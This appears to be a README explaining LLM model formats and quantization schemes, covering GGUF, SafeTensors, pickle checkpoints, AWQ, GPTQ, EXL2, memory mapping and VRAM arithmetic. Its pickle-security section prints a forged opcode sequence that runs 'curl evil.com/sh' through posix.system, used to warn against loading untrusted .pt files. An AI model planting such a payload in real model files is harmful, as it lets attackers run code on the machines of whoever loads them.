

# LLM Model Formats & Quantization (GGUF, SafeTensors, PyTorch, AWQ, GPTQ, EXL2)

A comprehensive architectural dissection, binary comparison, and numerical simulation of AI model serialization formats, quantization schemes, and runtime execution ecosystems.

---

## 1. Executive Summary: Why Are There So Many Formats?

Machine learning models transition through distinct stages in their lifecycle. Each stage imposes fundamentally different constraints on memory, security, metadata completeness, and hardware execution:



---

## 2. Taxonomy: Containers vs. Numeric Codecs vs. Architecture

In AI/ML, three distinct layers are frequently conflated under the word *"format"*:

```text
┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│ 1. CONTAINER FORMAT (The File Wrapper / Packaging)                                               │
│    • Examples: SafeTensors (.safetensors), GGUF (.gguf), PyTorch (.pt), ONNX (.onnx)             │
│    • Analogy: Like MP4, MKV, or ZIP containers.                                                  │
├──────────────────────────────────────────────────────────────────────────────────────────────────┤
│ 2. NUMERIC DATA TYPE / CODEC (The Weight Representation inside the container)                    │
│    • Examples: FP16, BF16, FP8 (E4M3), INT4 (AWQ/GPTQ), Ternary 1.58b {-1, 0, +1}, Q4_K_M       │
│    • Analogy: Like H.264, AV1, or AAC audio codecs stored inside the MP4 container.              │
├──────────────────────────────────────────────────────────────────────────────────────────────────┤
│ 3. NEURAL ARCHITECTURE (The Model Graph Blueprint)                                              │
│    • Examples: LLaMA-3, DeepSeek-V3 MoE, Mistral, Gemma 2, Qwen 2.5                             │
│    • Analogy: The actual movie screenplay and scene layout.                                      │
└──────────────────────────────────────────────────────────────────────────────────────────────────┘
```

* **FP8** and **Ternary BitNet 1.58b** are **Numeric Data Types / Quantization Schemes**.
* They are packaged inside **Container Formats** (e.g., DeepSeek-V3 stores its native FP8 weights inside `.safetensors` files; BitNet stores ternary weights inside `.safetensors` or `.gguf`).

---

## 3. Master Comparison Matrix

| Format Key | Full Name & Primary Ecosystem | Category | Security Risk | Self-Contained? | `mmap` Zero-Copy? | Primary Target Hardware |
|---|---|---|---|---|---|---|
| **`GGUF`** | **GPT-Generated Unified Format** (`llama.cpp`, Ollama, LM Studio) | Unified Edge Quant | **✅ Safe** | **Yes** (Weights + Tokenizer + Architecture) | **Yes** (Aligned to 32B) | Apple Silicon (Metal), CPUs (AVX-512/NEON), Consumer GPUs |
| **`SafeTensors`** | **Hugging Face Zero-Copy Standard** (`transformers`, `vLLM`, `diffusers`) | Weight Container | **✅ Safe** | **No** (Requires external `tokenizer.json`, `config.json`) | **Yes** (Direct memory slice) | NVIDIA Server GPUs, Cloud Inference, Fine-Tuning |
| **`MLX`** | **Apple MLX Unified SafeTensors** (`mlx-lm`, `mlx-community`) | MLX Unified Container | **✅ Safe** | **No** (SafeTensors + config.json bundle) | **Yes** (Unified Memory Array) | Apple Silicon (M1/M2/M3/M4) Metal unified memory & local LoRA fine-tuning |
| **`Native FP8`** | **OCP FP8 E4M3 / E5M2** (DeepSeek-V3/R1, NVIDIA Hopper/Ada/Blackwell, `vLLM`) | Native FP8 Container | **✅ Safe** | **No** (Stored in `.safetensors`) | **Yes** | NVIDIA H100/H200/RTX 4090/B200 Tensor Cores with zero runtime dequantization |
| **`BitNet b1.58`** | **1.58-bit Ternary $\{-1, 0, +1\}$** (Microsoft `bitnet.cpp`) | Ternary BitNet | **✅ Safe** | **Yes** (Ternary weights) | **Yes** | Ultra-low power edge devices, pure integer addition matrix operations |
| **`PyTorch Pickle`** | **Legacy Checkpoints** (`.pt`, `.bin`, `.pth`) | Training Checkpoint | **❌ Dangerous** (Arbitrary Code Exec) | **No** (Requires Python runtime) | **No** (Incurs 2x-3x RAM copy on unpickle) | Internal Training Resumption only |
| **`AWQ`** | **Activation-aware Weight Quantization** (`vLLM`, `TGI`) | GPU Packed Quant | **✅ Safe** | **No** (Stored in `.safetensors`) | **Yes** | NVIDIA Tensor Cores (protects 1% salient weights) |
| **`GPTQ`** | **Generalized Post-Training Quantization** (`AutoGPTQ`, `ExLlamaV2`) | GPU Packed Quant | **✅ Safe** | **No** (Stored in `.safetensors`) | **Yes** | NVIDIA GPUs with second-order Hessian compensation |
| **`EXL2`** | **ExLlamaV2 Sub-Byte Format** (`ExLlamaV2`, `TabbyAPI`) | GPU Packed Quant | **✅ Safe** | **No** (Stored in `.safetensors`) | **Yes** | Consumer NVIDIA GPUs (RTX 3090/4090) for maximum single-stream speed |
| **`ONNX`** | **Open Neural Network Exchange** (`ONNX Runtime`, `WebGPU`) | Compiled Graph | **✅ Safe** | **Yes** (Graph + Weights) | **Yes** | Windows DirectML, Mobile, Web Browsers (WebGPU/WASM) |
| **`TensorRT Engine`** | **TensorRT-LLM Engine** (`.engine`, `.plan`) | Compiled Executable Blob | **⚠️ Executable Blob** | **Yes** (Compiled Kernels) | **Yes** | Strictly locked to the specific NVIDIA GPU model it was compiled on |

---

## 4. Zero-Copy Memory Mapping (`mmap`) Explained

When an engine loads a 16 GB SafeTensors or GGUF model via `mmap`, **it does not copy the file into an in-memory buffer**:

```mermaid
flowchart TD
    subgraph Traditional["❌ Traditional Loading (PyTorch .pt / pickle)"]
        SSD1["1. NVMe SSD (.pt file)"] -->|Read file into buffer| RAM1["2. Temp Buffer in RAM (16GB)"]
        RAM1 -->|Python VM unpacks object graph| RAM2["3. Python Heap Tensor Objects (16GB)"]
        RAM2 -->|Convert to C++ Tensor Storage| RAM3["4. PyTorch C++ Engine Storage (16GB)"]
        RAM3 -->|cudaMemcpy to GPU| VRAM1["5. GPU VRAM (16GB)"]
        Note1["⚠️ Result: 2x–3x RAM Spike (up to 48GB allocated temporarily during load)"]
    end

    subgraph Mmap["✅ Zero-Copy Memory Mapping (SafeTensors / GGUF)"]
        SSD2["1. NVMe SSD (.safetensors / .gguf)"] -.->|mmap system call| VIRT["2. Virtual Memory Page Table"]
        VIRT -->|Direct Virtual Pointer| ENGINE["3. Engine Virtual Address Space"]
        ENGINE -->|Direct GPU DMA Transfer (or Unified Memory Access)| RUNTIME["4. Inference Execution"]
        Note2["🔒 Result: 0 intermediate buffers. The file address on disk IS the pointer."]
    end
```

### How `mmap` Works Under the Hood:
1. When `mmap()` is called, the OS kernel does **not** copy the 16 GB file into RAM immediately. Instead, it creates **virtual memory page table entries** mapping the file's byte offsets directly to address pointers.
2. **On Apple Silicon (Unified Memory)**: Because the CPU and GPU share the exact same physical memory pool, the model pointers point directly to the OS page-cached file. There is **zero copy anywhere**.
3. **On Dedicated NVIDIA GPUs**: Direct DMA (Direct Memory Access) or `cudaMemcpy` reads straight from the mapped virtual memory buffer into GPU VRAM without constructing intermediate Python object graphs.

---

## 5. What is "Architecture"? SafeTensors Multi-File vs. GGUF Single-File

In a Transformer LLM, the **architecture** is the structural blueprint of the neural network:
* Layer count (e.g. $32$ blocks)
* Hidden dimension (e.g. $4096$)
* Attention heads (e.g. $32$ Query heads, $8$ Key-Value heads for Grouped-Query Attention)
* Normalization type & epsilon (e.g. `RMSNorm`, $\epsilon = 10^{-5}$)
* RoPE frequency base (e.g. $500000.0$)
* Tokenizer vocabulary, merges, and chat prompt template.

```text
A. SafeTensors Setup (Multi-File Bundle Required):
   ┌───────────────────────┐
   │ model.safetensors     │ ───► ONLY raw tensor arrays ("model.layers.0.weight": [4096, 4096])
   └───────────────────────┘      ⚠️ Has NO IDEA what model this is or how to run it!
   ┌───────────────────────┐
   │ config.json           │ ───► DEFINES ARCHITECTURE: { "hidden_size": 4096, "num_layers": 32, ... }
   └───────────────────────┘
   ┌───────────────────────┐
   │ tokenizer.json        │ ───► DEFINES VOCABULARY & ENCODING
   └───────────────────────┘
   ┌───────────────────────┐
   │ tokenizer_config.json │ ───► DEFINES CHAT TEMPLATE & SPECIAL TOKENS (<|im_start|>, <|im_end|>)
   └───────────────────────┘

B. GGUF Setup (Single Unified File - Self-Contained):
   ┌──────────────────────────────────────────────────────────────────────────────────────────────┐
   │ model.gguf                                                                                   │
   │ ┌──────────────────────────────────────────────────────────────────────────────────────────┐ │
   │ │ EMBEDDED METADATA:                                                                       │ │
   │ │   general.architecture = "llama"                                                         │ │
   │ │   llama.block_count = 32                                                                 │ │
   │ │   llama.embedding_length = 4096                                                          │ │
   │ │   llama.attention.head_count_kv = 8                                                      │ │
   │ │   tokenizer.ggml.tokens = ["<bos>", "<eos>", "hello", ...]                               │ │
   │ │   tokenizer.chat_template = "..."                               │ │
   │ ├──────────────────────────────────────────────────────────────────────────────────────────┤ │
   │ │ TENSOR DESCRIPTORS & QUANTIZED WEIGHTS (Q4_K_M / Q5_K_M blocks aligned to 32 bytes)      │ │
   │ └──────────────────────────────────────────────────────────────────────────────────────────┘ │
   └──────────────────────────────────────────────────────────────────────────────────────────────┘
```

> **Summary:** SafeTensors isolates pure weights into a standardized, zero-copy buffer, delegating architecture to external JSON files. GGUF is a unified container bundling architecture hyperparameters, vocabulary, tokenizer templates, and aligned quantized tensors into one standalone file.

---

## 6. Deep Architectural Binary Dissections

### A. GGUF (v3) Binary Structure
Designed by Georgi Gerganov and the `llama.cpp` community to solve the brittle architecture issues of legacy GGML.

```text
┌──────────────────────────────────────────────────────────────────────────────────────────────────────┐
│ [0x00] MAGIC "GGUF" (0x46554747) | [0x04] VERSION (v3) | [0x08] TENSOR_COUNT | [0x10] KV_COUNT      │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ KEY-VALUE METADATA STORE (Self-Contained Model Spec + Tokenizer + Architecture Hyperparams):         │
│   • "general.architecture"          -> "llama" / "mistral" / "qwen2"                                 │
│   • "llama.context_length"          -> 8192 / 32768 / 131072                                         │
│   • "llama.attention.head_count_kv" -> 8 (Grouped-Query Attention ratio)                            │
│   • "tokenizer.ggml.tokens"         -> Full Embedded Vocabulary Array                                │
│   • "tokenizer.chat_template"       -> Jinja2 System & Role Prompt Template                          │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ TENSOR INFO TABLE (Array of Tensor Descriptors):                                                     │
│   • Name (e.g. "blk.0.attn_q.weight") | Shape [4096, 4096] | Type (Q4_K / Q8_0) | Offset in Data   │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ PADDING TO ALIGNMENT BOUNDARY (Default 32 bytes for SIMD AVX-512 / ARM NEON / Apple Metal mmap)     │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ RAW TENSOR DATA PAYLOAD:                                                                             │
│   [Tensor 0: Q4_K super-blocks] [Tensor 1: Q5_K] ... [Tensor N: Q6_K output head]                    │
└──────────────────────────────────────────────────────────────────────────────────────────────────────┘
```

---

### B. SafeTensors Binary Structure
Developed by Hugging Face to replace dangerous PyTorch `.bin` pickle files.

```text
┌──────────────────────────────────────────────────────────────────────────────────────────────────────┐
│ [0x00..0x07] 8-Byte Little-Endian Uint64: Header Length N (e.g. 14,820 bytes)                        │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ [0x08..0x08+N] UTF-8 JSON HEADER (Pure Declarative Data, Zero Executable Code):                      │
│   {                                                                                                  │
│     "model.layers.0.self_attn.q_proj.weight": {                                                      │
│       "dtype": "BF16",                                                                               │
│       "shape": [4096, 4096],                                                                         │
│       "data_offsets": [0, 33554432]                                                                  │
│     },                                                                                               │
│     "__metadata__": { "format": "pt" }                                                               │
│   }                                                                                                  │
├──────────────────────────────────────────────────────────────────────────────────────────────────────┤
│ [0x08+N..EOF] RAW CONTIGUOUS TENSOR BYTES (Zero-Copy direct memory-mapped into GPU/RAM)              │
│   [Raw contiguous byte buffer matching exact data_offsets]                                           │
└──────────────────────────────────────────────────────────────────────────────────────────────────────┘
```

---

### C. PyTorch Pickle (`.pt` / `.bin`) Security Hazards

PyTorch serialization uses Python's `pickle` virtual machine. Pickle streams are executable programs containing opcodes like `GLOBAL` (`c`) and `REDUCE` (`R`):

```text
// ⚠️ CRITICAL SECURITY HAZARD:
// An attacker can forge a .pt file with the following opcode sequence:
\x80\x02                          # PROTOCOL 2
cposix\nsystem\n                  # GLOBAL 'posix.system'
X\x1a\x00\x00\x00curl evil.com/sh # String command argument
\x85                              # TUPLE1
R                                 # REDUCE -> executes system("curl evil.com/sh") immediately!
.                                 # STOP
```

> **Safety Rule:** `// ❌ FORBIDDEN:` Never load untrusted `.pt` or `.bin` files downloaded from the public internet using `torch.load()` or `pickle.load()`. Always use SafeTensors.

---

## 7. Apple MLX vs. GGUF (llama.cpp) on Apple Silicon

Both MLX and GGUF are optimized for Apple Silicon unified memory, but they serve different workflows:

```text
====================================================================================================
                            APPLE MLX vs GGUF (llama.cpp) ON MAC
====================================================================================================
Feature / Trait          Apple MLX (mlx-lm)                     GGUF (llama.cpp / Ollama)
----------------------------------------------------------------------------------------------------
Engine Backend           Apple Metal Performance Shaders (MPS)  Custom Hand-Tuned Metal Kernels
Single-Stream Speed      ⚡ Very Fast (e.g. 55-65 tok/s for 8B)  ⚡ Very Fast (e.g. 55-65 tok/s for 8B)
Prompt Ingestion/Prefill 🏆 Slightly faster on large batches    ⚡ Very fast
Fine-Tuning & Training   🏆 YES: Full LoRA/QLoRA & Training     ❌ NO: Inference only
Quantization Diversity   Group-wise Affine (4-bit, 8-bit)       K-quants (Q4_K_M, Q5_K_M) & I-quants (IQ2/IQ3)
Container & Packaging    Multi-file (.safetensors + config)     Single-file self-contained (.gguf)
Dependencies             Python environment (`pip install mlx`) Standalone binary (0 dependencies, Ollama)
Portability              Strictly Apple Silicon only            Runs on Mac, Linux, Windows, CPU, CUDA
====================================================================================================
```

---

## 8. Quantization Mechanics: K-Quants vs AWQ vs GPTQ vs FP8 vs BitNet

```text
==========================================================================================
                 QUANTIZATION SCHEMES: SIZE, QUALITY & HARDWARE FIT
==========================================================================================
| Scheme   | Bits/W | 8B VRAM  | Quality % | VRAM Saving | Best Hardware & Engine           |
|----------|--------|----------|-----------|-------------|----------------------------------|
| F16      | 16.0   | 16.1 GB  | 100.0%    | 2.0x vs FP32| NVIDIA / Apple Silicon (Baseline)|
| BF16     | 16.0   | 16.1 GB  | 100.0%    | 2.0x vs FP32| Default Pre-Training Standard    |
| FP8_E4M3 | 8.0    | 8.0 GB   | 99.8%     | 2.0x vs FP16| DeepSeek-V3 / Hopper / Ada / B200|
| Q8_0     | 8.5    | 8.5 GB   | 99.9%     | 1.9x vs FP16| Near-lossless CPU/Metal quant    |
| MLX_4BIT | 4.5    | 4.5 GB   | 98.7%     | 3.5x vs FP16| Apple Silicon Metal (mlx-lm)     |
| Q4_K_M   | 4.5    | 4.5 GB   | 98.5%     | 3.5x vs FP16| Sweet spot for local LLMs (Ollama)|
| Q5_K_M   | 5.5    | 5.5 GB   | 99.5%     | 2.9x vs FP16| Coding / Complex Math Reasoning   |
| AWQ_INT4 | 4.0    | 4.0 GB   | 98.8%     | 4.0x vs FP16| vLLM / TGI High-Throughput Serving|
| GPTQ_INT4| 4.0    | 4.0 GB   | 98.2%     | 4.0x vs FP16| ExLlamaV2 / Single-GPU Inference  |
| EXL2     | 4.0    | 4.0 GB   | 98.5%     | 4.0x vs FP16| Max speed on RTX 3090/4090 GPUs   |
| IQ3_M    | 3.3    | 3.3 GB   | 94.0%     | 4.8x vs FP16| Ultra-tight VRAM budgets (8GB)    |
| IQ2_XXS  | 2.1    | 2.1 GB   | 90.0%     | 7.8x vs FP16| Fitting 70B models in 18-24GB VRAM|
| BITNET   | 1.58   | 1.6 GB   | 92.0%     | 10.1x vs FP16| Pure integer addition 1-bit LLMs |
==========================================================================================
```

---

## 9. Memory Engineering & The Bandwidth Bottleneck

### A. Total VRAM Formula
$$\text{Total VRAM} = \text{Model Weights (GB)} + \text{KV Cache (GB)} + \text{Activation Buffer (GB)} + \text{CUDA Context (0.55 GB)}$$

For Grouped-Query Attention (GQA, e.g. Llama-3-8B with 32 layers, 8 KV heads, head dimension 128):
$$\text{KV Cache per Token} = 2 \times n_{\text{layers}} \times n_{\text{KV\_heads}} \times d_{\text{head}} \times \text{bytes\_per\_dtype} = 128 \text{ KB / token}$$

At 8,192 tokens $\rightarrow$ **1.0 GB KV Cache**  
At 131,072 tokens (128k context) $\rightarrow$ **16.0 GB KV Cache!**

---

### B. Where Weights Transfer From/To During Generation

```text
      ┌────────────────────────────────┐
      │   VRAM / Unified Memory DRAM   │  (Storage where model weights sit: 16 GB for FP16, 4.5 GB for Q4_K_M)
      └────────────────────────────────┘
                      │
                      │  ◄─── MEMORY BUS BANDWIDTH BOTTLENECK
                      │       (e.g., Apple M4 Pro = 273 GB/s; NVIDIA RTX 4090 = 1,008 GB/s)
                      ▼
      ┌────────────────────────────────┐
      │      GPU / CPU Compute Cores   │  (Registers, ALUs, Tensor Cores where W · x matrix math runs)
      └────────────────────────────────┘
```

#### Why every token requires transferring the entire model:
1. **At load time (one-off)**: The model is memory-mapped from the **SSD $\rightarrow$ RAM / VRAM**.
2. **During generation (for EVERY SINGLE TOKEN generated)**:
   * To predict the next single token, the compute cores must compute matrix multiplications through all $L$ layers:
     $$y = W_1 \cdot x \rightarrow W_2 \cdot y \rightarrow \dots \rightarrow W_L \cdot y$$
   * The matrix $W$ contains **all billions of parameters** in the model.
   * Because GPU registers and L1/L2 caches are tiny ($< 100 \text{ MB}$), they cannot hold the model weights.
   * Therefore, for **every single token**, the GPU **must fetch all 8 billion weights from DRAM across the memory bus into the GPU compute cores**.

#### The Token Speed Formula:
$$\text{Theoretical Max Tokens/sec} = \frac{\text{Memory Bandwidth (GB/s)}}{\text{Model Weight Size (GB)}} \times \text{Efficiency Factor (0.85)}$$

* **Apple M4 Pro (273 GB/s)**:
  * FP16 (16GB model): $\frac{273}{16} \times 0.85 \approx \mathbf{14.5 \text{ tokens/sec}}$
  * Q4_K_M (4.5GB model): $\frac{273}{4.5} \times 0.85 \approx \mathbf{51.5 \text{ tokens/sec}}$ (**3.7x faster due to 3.7x smaller weight transfer across the memory bus!**)
* **NVIDIA RTX 4090 (1,008 GB/s)**:
  * Q4_K_M / AWQ (4.5GB model): $\frac{1008}{4.5} \times 0.85 \approx \mathbf{190.4 \text{ tokens/sec}}$

---

## 10. Format Selection Decision Flowchart

```text
========================================================================================================
                                LLM FORMAT SELECTION DECISION FLOWCHART
========================================================================================================

                                  [ What is your primary deployment target? ]
                                                     │
      ┌───────────────────────┬──────────────────────┼───────────────────────┬──────────────────────┐
      ▼                       ▼                      ▼                       ▼                      ▼
  [ Local Consumer Chat ] [ Mac Native MLX ]    [ Enterprise Server GPU ] [ Single NVIDIA Speed ] [ Research / Train ]
  • Ollama / llama.cpp    • Apple M-series      • NVIDIA H100/A100/B200   • RTX 3090 / 4090       • LoRA / HuggingFace
  • CPU / Metal           • mlx-lm / LoRA fine  • vLLM / SGLang / TGI     • ExLlamaV2             • Axolotl / Unsloth
      │                       │                      │                       │                      │
      ▼                       ▼                      ▼                       ▼                      ▼
  ⭐ GGUF                 ⭐ MLX SAFETENSORS    ⭐ SAFETENSORS (FP8/AWQ) ⭐ EXL2 / GPTQ         ⭐ SAFETENSORS (BF16)
 (Q4_K_M / Q5_K_M)       (4-bit affine / BF16)  (Native FP8 / INT4 AWQ)  (4.0 bpw sub-byte)     (Universal standard)
      │                       │                      │                       │                      │
  ┌───┴──────────────┐    ┌───┴──────────────┐   ┌───┴──────────────┐    ┌───┴──────────────┐   ┌───┴──────────────┐
  │ • Single file    │    │ • Metal native   │   │ • PagedAttention │    │ • Custom CUDA    │   │ • Zero-copy mmap │
  │ • Aligned mmap   │    │ • Native fine-tun│   │ • Tensor-parallel│    │ • 150+ tokens/s  │   │ • Safe (No RCE)  │
  └──────────────────┘    └──────────────────┘   └──────────────────┘    └──────────────────┘   └──────────────────┘
```

---

## 11. Running the Interactive Walkthroughs

### A. TypeScript / Bun Master Demo
```bash
cd llm-model-formats

# Run the master interactive walkthrough
bun run demo

# Run the complete test suite (19 tests across 5 test suites)
bun test

# Run strict TypeScript typechecking
bun run typecheck
```

### B. Python Real-Binary Inspection Suite
```bash
cd llm-model-formats

# Run the master Python walkthrough (writes real .safetensors, .gguf, .pt files to disk & mmaps them)
python3 python/demo_all.py
```
